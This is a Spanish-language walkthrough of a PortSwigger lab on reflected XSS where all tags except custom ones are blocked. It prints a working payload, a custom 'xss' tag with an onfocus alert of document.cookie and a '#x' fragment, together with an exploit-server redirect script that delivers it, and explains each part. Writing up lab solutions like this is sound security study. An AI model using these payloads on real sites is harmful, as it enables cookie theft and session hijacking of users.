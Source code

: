 # 3- Reflected XSS into HTML context with all tags blocked except custom ones

> This lab blocks all HTML tags except custom ones.
>
>  To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a custom tag and automatically alerts `document.cookie`.

En el lab nos presentan un **exploit server** que simula un server malicioso para craftear ataques

Por ejemplo en la pantalla por defecto lo que aparece la posibilidad de crear un exploit que nos lleve a un html y ejecute algo, en este caso aparece un Hola Mundo al ver el exploit

![](../../../.gitbook/assets/imagen%20%28933%29.png)

Mi link generado entonces: **https://exploit-ac921fda1f5116d9804a6c86019000ca.web-security-academy.net/exploit** al tocarlo nos lleva a un html que dice hello world!

Colocando el siguiente script en el body la pagina de exploit nos redirije a google:

```text
<script>
location = "https://www.google.com"
</script>
```

Sabemos que queremos llevar a una victima a ejecutar este codigo una vez llegue al link 

```text
https://ac7d1fc11f03161080bc6ca900ba0037.web-security-academy.net/?search=
```

Para probar nos colocamos sobre el buscador y realizando pasos similares al laboratorio anterior probamos mediante sniper todos los tags **custom brindados** en la xss cheatsheet



![](../../../.gitbook/assets/imagen%20%28932%29.png)

Permite todos los que quieras, es decir que si pones &lt;hola&gt; no lo toma como algo a bloquear, a diferencia de &lt;sc

![](../../../.gitbook/assets/imagen%20%28654%29.png)

Estudiando un poco la solucion brindada:

```text
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

Pasandola por un url decoder:

```text
<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x
```

Con esto podemos ver como: trata el `+` como espacio,  `<xss` es la custom tag que no es bloqueada como vimos antes.

`id=x`  Agrega un atributo id llamado x a la tag

`onfocus=alert(document.cookie)` marca que al hacerse focus sobre el html se ejecute el codigo

 onfocus is an event attribute where it will execute the javascript code when the HTML element that it is assigned to gets focus. The javascript code:`alert(document.cookie)` , will be executed once the event happened.

`#x` Esto hace que al entrar en la barra se haga focus solo a esto

`tabindex=1` para ser el primer lugar a donde viaja

Encodeado esto termina como la solucion marcada:

```text
https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x
```

Al llevar el exploit a la victima se ejecuta la accion deseada. 

